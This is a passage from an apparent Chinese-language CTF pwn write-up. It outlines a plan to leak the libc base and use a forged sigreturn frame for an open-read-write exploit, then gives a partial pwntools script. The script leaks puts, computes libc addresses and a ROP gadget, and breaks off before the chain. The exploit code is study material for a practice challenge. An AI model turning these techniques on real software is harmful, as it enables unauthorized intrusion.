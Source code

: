 思路：

*   由上面得知，我们可以进行泄露libc基地址，所以我们可以获得orw
*   我们没法进行溢出，但是可以利用伪造的sigFrame构造一个fake\_stack，之后再进行栈溢出
*   进行orw

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()




ru('gift: ')
puts=int(r(14),16)
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)

open_addr=libcbase+libc.symbols['open']
leak('open_addr',open_addr)

read_addr=libcbase+libc.symbols['read']
leak('read_addr',read_addr)

write_addr=libcbase+libc.symbols['write']
leak('write_addr',write_addr)

bss=libcbase+libc.bss()
leak('bss',bss)

rdi_ret=libcbase+0x0000000000021112
```